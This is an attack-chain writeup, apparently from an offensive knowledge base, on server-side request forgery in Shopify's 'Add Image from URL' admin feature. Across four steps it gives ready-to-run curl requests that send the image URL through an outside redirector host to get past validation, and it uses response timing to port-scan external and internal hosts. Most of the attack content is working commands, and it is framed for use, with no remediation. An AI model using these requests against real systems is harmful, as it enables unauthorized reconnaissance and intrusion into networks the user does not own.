

# SSRF Port Scanning via Shopify Add Image from URL Feature

Multi-stage attack chain demonstrating exploitation of SSRF in Shopify's admin panel to scan ports on internal and external hosts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Wireshark]]

### Target Environment

- Shopify admin panel (authenticated access required)
- Web platform with POST endpoint /admin/products/{id}/images
- Network access to target hosts for scanning (e.g., scanme.nmap.org, internal IPs like 23.227.55.1)

### Initial Access Requirements

- Valid Shopify store admin credentials
- CSRF token from the session
- Product ID (e.g., 922460995) for the endpoint

## Detailed Attack Procedures

### Step 1: Identify Add Image from URL Endpoint
procedure: [[procedures/Identify-Add-Image-from-URL-Endpoint]]

**Objective**: Locate and understand the legitimate image upload feature to identify the exploitable endpoint.

**Instructions**: Log into the Shopify admin panel and navigate to a product. Observe the network requests when using the 'Add Image from URL' feature. The POST request targets /admin/products/{id}/images with image[src] parameter.

Use [[commands/shopify-add-image-normal]] to simulate the legitimate request:

```bash
curl -X POST 'https://test-4925.myshopify.com/admin/products/922460995/images' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -d 'utf8=%E2%9C%93&authenticity_token=F7cvLpquxqr%2BrFmnGVFhNEK6rV8njtebHikevxGlLJA%3D&product_id=922460995&image%5Bsrc%5D=https://example.com/image.jpg&_method=post'
```

**Expected Output**: HTTP 200 response with image added successfully.

**Success Indicators**:
- Endpoint identified and legitimate request succeeds
- image[src] parameter confirmed as URL fetcher

### Step 2: Bypass URL Validation with Redirects
procedure: [[procedures/Bypass-URL-Validation-with-Redirects]]

**Objective**: Craft a request that uses redirects to evade Shopify's URL validation and force connections to arbitrary hosts/ports.

**Instructions**: Modify the image[src] to point to a redirector service (e.g., hettoteam.tk/r.php) that forwards to the target. This bypasses checks on protocols, ports, and IPs.

Execute [[commands/shopify-ssrf-redirect]] to test the bypass on a specific port:

```bash
curl -X POST 'https://test-4925.myshopify.com/admin/products/922460995/images' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -d 'utf8=%E2%9C%93&authenticity_token=F7cvLpquxqr%2BrFmnGVFhNEK6rV8njtebHikevxGlLJA%3D&product_id=922460995&image%5Bsrc%5D=http%3A%2F%2Fhettoteam.tk/r.php?r=http://hettoteam.tk:21&_method=post'
```

**Expected Output**: Server follows redirect; response time indicates connection attempt.

**Success Indicators**:
- Request completes without validation error
- Server connects to non-standard port (e.g., 21)

### Step 3: Perform Port Scanning using HTTP RTT
procedure: [[procedures/Perform-Port-Scanning-using-HTTP-RTT]]

**Objective**: Use timing differences in HTTP responses to detect open/closed ports on target hosts, including internal networks.

**Instructions**: Send multiple requests varying the port in the redirect URL. Measure RTT: ~300ms for closed ports, ~420ms for open (e.g., SSH on 22).

Test closed port with [[commands/ssrf-scan-port-closed]]:

```bash
curl -X POST 'https://test-4925.myshopify.com/admin/products/922460995/images' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -w '%{time_total}' \
  -d 'utf8=%E2%9C%93&authenticity_token=F7cvLpquxqr%2BrFmnGVFhNEK6rV8njtebHikevxGlLJA%3D&product_id=922460995&image%5Bsrc%5D=http://hettoteam.tk/r.php?r=http://scanme.nmap.org:1&_method=post' > /dev/null
```

Test open port with [[commands/ssrf-scan-port-open]]:

```bash
curl -X POST 'https://test-4925.myshopify.com/admin/products/922460995/images' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -w '%{time_total}' \
  -d 'utf8=%E2%9C%93&authenticity_token=F7cvLpquxqr%2BrFmnGVFhNEK6rV8njtebHikevxGlLJA%3D&product_id=922460995&image%5Bsrc%5D=http://hettoteam.tk/r.php?r=http://scanme.nmap.org:22&_method=post' > /dev/null
```

Scan internal host (e.g., 23.227.55.1:22 open, :21 closed).

**Expected Output**: RTT values differing by port status.

**Success Indicators**:
- Consistent RTT patterns for open/closed ports
- Internal ports detected (e.g., SSH on 22)

### Step 4: Capture and Analyze Network Traffic
procedure: [[procedures/Capture-and-Analyze-Network-Traffic]]

**Objective**: Verify SSRF exploitation by inspecting network interactions.

**Instructions**: Use Wireshark to capture traffic during requests. Filter for HTTP POST to the endpoint and observe outbound connections.

Start capture with [[tools/Wireshark]] on the interface, then replay requests and analyze for redirects and target connections.

**Expected Output**: Packet capture showing server-side fetches to arbitrary URLs/ports.

**Success Indicators**:
- Outbound connections to targets confirmed
- No direct client connections to internals

## Attack Chain Summary

### Key Achievements

1. Bypassed URL validation using redirects to access arbitrary hosts/ports.
2. Performed blind port scanning on external (scanme.nmap.org) and internal (23.227.55.1) networks.
3. Demonstrated potential firewall bypass via timing-based reconnaissance.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Active Scanning]] Active Scanning

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance

---
*Last updated: 2023-10-01T00:00:00Z*
